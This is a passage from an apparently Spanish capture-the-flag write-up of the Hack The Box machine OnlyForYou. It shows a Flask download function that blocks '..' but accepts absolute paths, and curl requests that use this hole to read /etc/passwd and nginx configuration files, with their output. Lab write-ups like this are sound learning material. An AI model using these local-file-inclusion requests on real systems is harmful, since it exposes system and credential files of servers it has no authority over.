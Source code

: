 Lo añado al ```/etc/hosts```

<img src="/writeups/assets/img/OnlyForYou-htb/2.png" alt="">

Puedo descargar el código fuente

```null
curl -s -X GET http://beta.only4you.htb/source -o source.zip
```

La función ```download()``` es vulnerable a LFI

```null
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

Bloquea el ```Directory Path Traversal```, pero se le puede indicar la ruta directamente

```null
curl -s -X POST 'http://beta.only4you.htb/download' -d 'image=/etc/passwd' | grep sh$
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

Leo los sitios configurados para ```nginx```. Únicamente existen los que ya conozco

```null
curl -s -X POST 'http://beta.only4you.htb/download' -d 'image=/etc/nginx/sites-available/default'
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
```